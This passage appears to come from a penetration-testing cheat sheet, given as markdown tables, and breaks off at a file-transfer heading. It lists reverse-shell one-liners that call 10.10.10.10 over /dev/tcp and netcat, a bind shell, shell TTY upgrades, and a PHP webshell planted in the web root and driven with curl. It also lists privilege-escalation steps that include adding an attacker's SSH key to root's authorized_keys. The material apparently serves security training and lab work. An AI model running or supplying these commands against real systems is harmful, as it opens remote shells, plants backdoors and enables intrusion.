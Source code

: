 |`exploit`|MSF: Run the exploit on the target server is vulnerable|

  
  
  

# Using Shells

|**Command**|**Description**|
|---|---|
|`nc -lvnp 1234`|Start a `nc` listener on a local port|
|`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`|Send a reverse shell from the remote server|
|`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\\|/bin/sh -i 2>&1\\|nc 10.10.10.10 1234 >/tmp/f`|Another command to send a reverse shell from the remote server|
|`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\\|/bin/bash -i 2>&1\\|nc -lvp 1234 >/tmp/f`|Start a bind shell on the remote server|
|`nc 10.10.10.1 1234`|Connect to a bind shell started on the remote server|
|`python -c 'import pty; pty.spawn("/bin/bash")'`|Upgrade shell TTY (1)|
|`ctrl+z` then `stty raw -echo` then `fg` then `enter` twice|Upgrade shell TTY (2)|
|`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`|Create a webshell php file|
|`curl http://SERVER_IP:PORT/shell.php?cmd=id`|Execute a command on an uploaded webshell|

  
  
  

# Privilege Escalation

|**Command**|**Description**|
|---|---|
|`./linpeas.sh`|Run `linpeas` script to enumerate remote server|
|`sudo -l`|List available `sudo` privileges|
|`sudo -u user /bin/echo Hello World!`|Run a command with `sudo`|
|`sudo su -`|Switch to root user (if we have access to `sudo su`)|
|`sudo su user -`|Switch to a user (if we have access to `sudo su`)|
|`ssh-keygen -f key`|Create a new SSH key|
|`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`|Add the generated public key to the user|
|`ssh root@10.10.10.10 -i key`|SSH to the server with the generated private key|

  
  
  

# Transferring Files
